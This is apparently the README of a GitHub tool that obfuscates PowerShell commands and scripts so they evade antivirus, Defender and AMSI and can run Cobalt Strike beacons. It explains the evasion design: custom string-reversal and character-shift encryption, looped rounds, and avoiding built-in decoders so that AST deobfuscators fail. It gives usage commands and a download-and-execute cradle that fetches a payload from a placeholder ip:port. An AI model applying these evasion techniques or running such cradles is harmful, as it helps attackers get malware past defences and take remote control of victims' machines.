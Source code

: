 # powershell-obfuscation

简单有效的powershell免杀混淆的小工具，VT全绿，可过Defender、360等，可执行上线cobaltstrike等操作。

AMSI混淆绕过+powershell命令混淆绕过。

**请勿使用于任何非法用途，由此产生的后果自行承担。**

上述测试环境均为实体机。

A simple and effective powershell obfuscaiton tool bypass Anti-Virus, VT.

AMSI-bypass obfuscation + powershell command obfuscation.

**Please do not use it for any illegal purpose, and the consequences arising therefrom shall be borne by yourself.**

## 思路

这段时间看了看powershell反混淆相关的内容与论文，目前反混淆效果最好的应该是2022年qax的《Invoke-Deobfuscation: AST-Based and Semantics-Preserving Deobfuscation for PowerShell Scripts》，该论文延续了19年CCS浙大的思路并进行了改进，使用了变量追踪并在AST层面上进行了invoke解混淆，属于静态分析加部分的动态分析，比defender和VT的效果好不少。

**不过论文中也提到了当前powershell反混淆研究的难点，一个是自定义function加密解不开，一个是很难去追踪循环中的变量。**

由于当前的powershell反混淆研究中对静态代码分析研究的并不算很多，暂未像C/Java中的静态代码分析一样可以有效追踪变量的调用与传播，因此对于循环中变量的传播暂时没有很好的解决办法。

同时function的调用可能需要更复杂的静态与动态分析，还要考虑到function嵌套的问题，因此暂时也没有很好的解决办法。

上述两个点可能是未来powershell反混淆需要去研究的内容。

由于部分的反混淆工具会在AST层面上进行反混淆的工作，因此powershell自带的大部分加密解密/编码解码的函数是形同虚设的，如[System.Convert]::FromBase64String等。应该尽可能去使用自定义的加密解密的function。

这里针对这两个学术界研究的难点，写了一个简单的powershell混淆器，事实证明效果确实也不错。具体思路如下：

1、自定义加密解密function，function中进行字符串的逆序（逆序没有用powershell自带的函数，防止AST层面上解混淆）与字符的+-运算（不使用异或运算的原因是defender对-bxor监控很严格）。

2、对上述function进行几次循环的运算。

3、为了能让字符有效地输出，最后用base64编码了一下（即便在AST层面上解开也无所谓，因为解开了的内容仍是混淆之后的）。

同时对AMSI绕过与powershell命令进行了混淆。

这里仅仅实现了一个简单的混淆器demo，可以自由发挥。

实验了一下，用qax的反混淆工具与Unit42团队的反混淆工具都是解不开的。

The tool with the best anti-obfuscation effect at present should be《Invoke-Deobfuscation: AST-Based and Semantics-Preserving Deobfuscation for PowerShell Scripts》. This paper uses variable tracking and invoke de-obfuscation at the AST level, the effect is much better than that of defender and VT.

**However, this paper also mentioned the difficulties of the current powershell anti-obfuscation research. One is that the custom function encryption cannot be de-obfuscated, and the other is that it is difficult to track the variables in the loop.**

Since some de-obfuscation tools de-obfuscates at the AST level, most of the encryption/encoding functions that come with powershell are useless, such as [System.Convert]::FromBase64String and so on. You should use custom encryption and decryption functions as much as possible.

Aiming at the difficulties of these the academic research, I wrote a simple powershell obfuscator, and it turns out that the result is really good. The specific ideas are as follows:

1. Customize the encryption and decryption function. In the function, reverse the string (reversing string does not use the function that comes with powershell to prevent de-confusing at the AST level) and the +- operation of characters (the reason why the XOR operation is not used here is that the defender monitors -bxor strictly).

2. Perform several loop operations on the encryption and decryption function.

3. In order to allow the characters to be effectively output, it is finally encoded with base64 (even if it is decoded at the AST level, it does not matter, because the decoded content is still obfuscated).

This tool implements AMSI-bypass obfuscation and powershell command obfuscation.

## 使用的方法

```./powershell-obfuscation.ps1 -c "whoami"``` 来混淆命令 obfuscates command

```./powershell-obfuscation.ps1 -f "filename"``` 来混淆指定的文件 obfuscates specific file

结果会输出在当前目录下的bypass.ps1中

The result can be found in bypass.ps1.

以cs的beacon.ps1为例

Take beacon.ps1 as an example

同样可以来混淆 IEX ((new-object net.webclient).downloadstring('http://ip:port/a'))

混淆前VT如下：

![image](https://github.com/H4de5-7/powershell-obfuscation/blob/main/VTorigin.png)

混淆后VT如下：

![image](https://github.com/H4de5-7/powershell-obfuscation/blob/main/VTbypass.png)

上线：

![image](https://github.com/H4de5-7/powershell-obfuscation/blob/main/CS.png)
